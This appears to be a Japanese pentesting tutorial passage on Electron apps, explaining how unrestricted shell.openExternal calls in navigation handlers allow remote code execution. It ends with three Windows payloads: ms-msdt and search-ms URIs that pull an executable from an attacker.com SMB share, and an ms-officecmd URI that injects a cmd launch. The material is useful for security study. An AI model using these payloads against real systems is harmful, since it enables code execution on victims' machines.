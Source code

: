 Electronデスクトップアプリケーションが適切な`nodeIntegration`、`contextIsolation`設定で展開されている場合、**メインプロセスからpreloadスクリプトやElectronネイティブコードをターゲットにしてクライアント側でのRCEを達成することはできません**。

ユーザーがリンクをクリックするたびに、または新しいウィンドウを開くたびに、以下のイベントリスナーが呼び出されます：

{% code overflow="wrap" %}
```javascript
webContents.on("new-window", function (event, url, disposition, options) {}
webContents.on("will-navigate", function (event, url) {}
```
{% endcode %}

デスクトップアプリケーションは、これらのリスナーをオーバーライドして、デスクトップアプリケーション独自のビジネスロジックを実装します。新しいウィンドウの作成時に、アプリケーションはナビゲートされたリンクをデスクトップアプリケーションのウィンドウまたはタブで開くべきか、Webブラウザで開くべきかをチェックします。この例では、`openInternally`関数で検証が実装されており、`false`を返す場合、アプリケーションは`shell.openExternal`関数を使用してリンクをWebブラウザで開くものとします。

**以下は簡略化された疑似コードです:**

![](<../../../.gitbook/assets/image (638) (2) (1) (1).png>)

![](<../../../.gitbook/assets/image (620).png>)

Electron JSのセキュリティベストプラクティスによれば、`openExternal`関数は**信頼できないコンテンツを受け入れてはならない** **ため、https://やhttp://などのプロトコルを制限しない場合、異なるプロトコルを悪用してRCEを引き起こす可能性があります**。

異なるOSは、RCEを引き起こす可能性のあるさまざまなプロトコルをサポートしています。詳細については、[https://positive.security/blog/url-open-rce](https://positive.security/blog/url-open-rce#windows-10-19042)を参照してください。以下にWindowsの例を示します:
```html
<script>
window.open("ms-msdt:id%20PCWDiagnostic%20%2Fmoreoptions%20false%20%2Fskip%20true%20%2Fparam%20IT_BrowseForFile%3D%22%5Cattacker.comsmb_sharemalicious_executable.exe%22%20%2Fparam%20IT_SelectProgram%3D%22NotListed%22%20%2Fparam%20IT_AutoTroubleshoot%3D%22ts_AUTO%22")
</script>


<script>
window.open("search-ms:query=malicious_executable.exe&crumb=location:%5C%[5Cattacker.com](<http://5cattacker.com/>)%5Csmb_share%5Ctools&displayname=Important%20update")
</script>


<script>
window.open("ms-officecmd:%7B%22id%22:3,%22LocalProviders.LaunchOfficeAppForResult%22:%7B%22details%22:%7B%22appId%22:5,%22name%22:%22Teams%22,%22discovered%22:%7B%22command%22:%22teams.exe%22,%22uri%22:%22msteams%22%7D%7D,%22filename%22:%22a:/b/%2520--disable-gpu-sandbox%2520--gpu-launcher=%22C:%5CWindows%5CSystem32%5Ccmd%2520/c%2520ping%252016843009%2520&&%2520%22%22%7D%7D")
</script>
```